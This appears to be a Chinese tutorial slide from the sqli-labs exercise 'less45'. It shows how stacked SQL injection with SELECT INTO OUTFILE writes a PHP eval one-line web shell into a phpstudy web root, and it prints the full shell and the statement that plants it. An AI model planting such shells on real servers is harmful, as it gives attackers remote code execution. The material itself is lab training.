

# 总结_堆叠注入写一句话木马
在上面的关卡中，基本上都是在创建表，删除表，我的操作会让大家感觉堆叠注入好像没有什么太大的用处，我们利用less45来写一个一句话木马：
php一句话木马：<?php   @eval($_POST[crow]); ?>
绝对路径： C:\phpstudy\PHPTutorial\WWW\
使用函数： select xxx into  outfile xxx
select '<?php @eval($_POST[crow]);?>' into outfile 'C:\\phpstudy\\PHPTutorial\\WWW\\crow.php';